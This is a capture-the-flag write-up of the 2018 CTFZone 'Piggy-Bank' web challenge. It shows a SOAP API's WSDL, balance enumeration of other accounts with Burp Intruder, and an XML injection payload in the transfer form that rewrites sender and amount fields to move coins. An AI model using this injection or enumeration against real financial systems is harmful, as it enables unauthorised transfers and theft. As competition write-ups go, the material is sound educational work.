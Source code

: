 ```yaml
---
title: "2018 Ctfzone Piggybank"
date: 2018-07-23T10:44:58+02:00
draft: false
tags: [web, injection, xml, 2018]
---
```


# Piggy-Bank (WEB - EASY) - 29 solves

```
Hack some bank for me.
```

First, we played a little bit with the website - there were index, register and login pages accessible for all the users, and _Profile_, _VIP_, _For developers_ and _Transfer_ pages for logged-in users.

![The web page](/blog/2018-ctfzone/piggybank/main_page.png)

_Profile_ page just showed the account balance, _Transfer_ allowed moving your money to other accounts, and _VIP_ was just saying that it'd reveal its secrets once we have 1'000'000 coins on our account (and we started with 110).
Navigating through _For developer_'s sources revealed one significant comment:

```
<div class="tab tab_5">Especially for pig-developers, we have the coolest api, which they will soon be able to use!</div>
<!-- Link to the API (http://web-05.v7frkwrfyhsjtbpfcppnu.ctfz.one/api/bankservice.wsdl.php) (Testing stage) -->
```

It turned out, that there's a SOAP API underneath:

```
HTTP/1.1 200 OK
Date: Sat, 21 Jul 2018 10:37:15 GMT
Server: Apache/2.4.18 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 2907
Connection: close
Content-Type: text/xml; charset=utf-8

<?xml version="1.0" encoding="utf-8"?><wsdl:definitions name="Bank"
             targetNamespace="urn:Bank"
             xmlns:tns="urn:Bank"
             xmlns:soap="http://schemas.xmlsoap.org/wsdl/soap/"
             xmlns:xsd="http://www.w3.org/2001/XMLSchema"
             xmlns:soapenc="http://schemas.xmlsoap.org/soap/encoding/"
             xmlns:wsdl="http://schemas.xmlsoap.org/wsdl/"
             xmlns="http://schemas.xmlsoap.org/wsdl/">

    <message name="BalanceRequest">
        <part name="wallet_num" type="xsd:decimal"/>
    </message>

    <message name="BalanceResponse">
        <part name="code" type="xsd:float"/>
        <part name="status" type="xsd:string"/>
    </message>

    <message name="internalTransferRequest">
        <part name="receiver_wallet_num" type="xsd:decimal"/>
        <part name="sender_wallet_num" type="xsd:decimal"/>
        <part name="amount" type="xsd:float"/>
        <part name="token" type="xsd:string"/>
    </message>

    <message name="internalTransferResponse">
        <part name="code" type="xsd:float"/>
        <part name="status" type="xsd:string"/>
    </message>

    <portType name="BankServicePort">
        <operation name="requestBalance">
            <input message="tns:BalanceRequest"/>
            <output message="tns:BalanceResponse"/>
        </operation>
        <operation name="internalTransfer">
            <input message="tns:internalTransferRequest"/>
            <output message="tns:internalTransferResponse"/>
        </operation>
    </portType>

    <binding name="BankServiceBinding" type="tns:BankServicePort">
        <soap:binding style="rpc" transport="http://schemas.xmlsoap.org/soap/http"/>
        <operation name="requestBalance">
            <soap:operation soapAction="urn:requestBalanceAction"/>
            <input>
                <soap:body use="encoded" namespace="urn:Bank" encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"/>
            </input>
            <output>
                <soap:body use="encoded" namespace="urn:Bank" encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"/>
            </output>
        </operation>
        <operation name="internalTransfer">
            <soap:operation soapAction="urn:internalTransferAction"/>
            <input>
                <soap:body use="encoded" namespace="urn:Bank" encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"/>
            </input>
            <output>
                <soap:body use="encoded" namespace="urn:Bank" encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"/>
            </output>
        </operation>
    </binding>

    <wsdl:service name="BankService">
        <wsdl:port name="BankServicePort" binding="tns:BankServiceBinding">
            <soap:address location="http://web-05.v7frkwrfyhsjtbpfcppnu.ctfz.one/api/bankservice.php" />
        </wsdl:port>
    </wsdl:service>
</wsdl:definitions>
```

At this point we thought, that the challenge is about either finding the vulnerability in transfer feature (like race condition or lack of appropriate checks) or somewhere else in API, and then materializing 1'000'000 coins on the account which would result in access to the _VIP_ page.
We were not so much wrong. 

Next, we tried to actually use the API. From the _wsdl_ file we identified two endpoints: `requestBalance` and `internalTransfer`, and utilized the first one to scan other accounts balances. 

```
POST /api/bankservice.php HTTP/1.1
Content-Type: text/xml
cache-control: no-cache
Postman-Token: ef43c527-538f-49ed-862e-57c80e3f320e
User-Agent: PostmanRuntime/7.1.5
Accept: */*
Host: web-05.v7frkwrfyhsjtbpfcppnu.ctfz.one
Accept-Encoding: gzip, deflate
Content-Length: 230
Connection: close

<?xml version="1.0" encoding="utf-8"?>

<SOAP-ENV:Envelope xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/">

<SOAP-ENV:Body>
	<requestBalance><id>2392</id></requestBalance>
</SOAP-ENV:Body>

</SOAP-ENV:Envelope>
```

```
HTTP/1.1 200 OK
Date: Sat, 21 Jul 2018 20:29:52 GMT
Server: Apache/2.4.18 (Ubuntu)
Cache-Control: no-store, no-cache
Expires: Sat, 21 Jul 2018 20:29:52 +0000
Vary: Accept-Encoding
Content-Length: 549
Connection: close
Content-Type: text/xml; charset=utf-8

<?xml version="1.0" encoding="UTF-8"?>
<SOAP-ENV:Envelope xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:ns1="urn:Bank" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/" SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"><SOAP-ENV:Body><ns1:requestBalanceResponse><code xsi:type="xsd:float">0</code><status xsi:type="xsd:string">110</status></ns1:requestBalanceResponse></SOAP-ENV:Body></SOAP-ENV:Envelope>

```

With this we were able to identify an account with over 1'000'000 coins using Burp Suite's _Intruder_:

![Setup, 1](/blog/2018-ctfzone/piggybank/sniper_setup1.png)
![Setup, 2](/blog/2018-ctfzone/piggybank/sniper_setup2.png)
![Setup, 3](/blog/2018-ctfzone/piggybank/sniper_setup3.png)

We could differentiate the empty and full wallets by just looking at responses' lengths:

![Result](/blog/2018-ctfzone/piggybank/sniper_results.png)

Then, to use the second endpoint to transfer money, we needed to find the valid token, as in _wsdl_ file:

```
<message name="internalTransferRequest">
	<part name="receiver_wallet_num" type="xsd:decimal"/>
	<part name="sender_wallet_num" type="xsd:decimal"/>
	<part name="amount" type="xsd:float"/>
	<part name="token" type="xsd:string"/>
</message>
```

Unfortunately, we were not able to find it anywhere (even though there was a little bit more information revealed with the response to `auth.php` file after logging in), therefore we stopped for a while.

But, it turned out that the transfer page is using this very API endpoint under the hood, and it's prone to injection attack:

```
receiver=1348</receiver_wallet_num>
<sender_wallet_num xsi:type="xsd:decimal">1337</sender_wallet_num>
<amount xsi:type="xsd:float"><!--
&amount=-->200000
```

![The injection](/blog/2018-ctfzone/piggybank/injection_request.png)

Go [here](https://blog.veryhax.ninja/blog/ctfzone18-piggy-bank/) for an additional explaination. 

After sending a few requests, we've landed with many coins:

![The wealth](/blog/2018-ctfzone/piggybank/profile_with_1m.png)

and were able to fetch the flag from VIP zone:

![The flag](/blog/2018-ctfzone/piggybank/vip.png)


What could be done else, was just transferring small amounts of money from other users with many `internalTransferRequest` calls.
